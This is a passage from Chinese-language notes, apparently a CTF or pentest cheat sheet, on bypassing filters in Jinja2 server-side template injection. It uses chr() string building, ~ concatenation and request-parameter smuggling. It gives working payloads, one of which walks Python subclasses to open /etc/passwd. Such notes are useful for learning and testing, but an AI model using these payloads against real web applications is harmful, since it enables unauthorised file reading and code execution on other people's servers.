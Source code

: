     ```python
    >>>print chr(0x30), chr(0x31), chr(0x61)   # 十六进制
    0 1 a
    >>> print chr(48), chr(49), chr(97)         # 十进制
    0 1 a
    ```

    利用:

    ```jinja2
    {% set chr=url_for.__globals__['__builtins__'].chr %}//设置chr为chr()函数
    {""[chr(95)%2bchr(95)%2bchr(99)%2bchr(108)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(95)%2bchr(95)]}}//%2b为+
    ```

    ![image-20220331143456337](./ssti/ssti_chr.png)

*   **利用~拼接(jinja2)**

    ```jinja2
    {%set a='__cla' %}{%set b='ss__'%}{{""[a~b]}}
    ```

*   **request绕过**

    利用request获取请求的信息，从而绕过

    ```
    request.args.name  //GET
    request.cookies.name  //cookie
    request.headers.name  //head
    request.values.name  //	POST
    request.form.name    //表单
    ```

    以`GET`方式，利用`request.args`传递参数为例

    ```jinja2
    {{().__class__.__bases__[0].__subclasses__()[213].__init__.__globals__.__builtins__[request.args.arg1](request.args.arg2).read()}}&arg1=open&arg2=/etc/passwd
    ```


*   ### reload

    该函数可以用来恢复被删除的函数
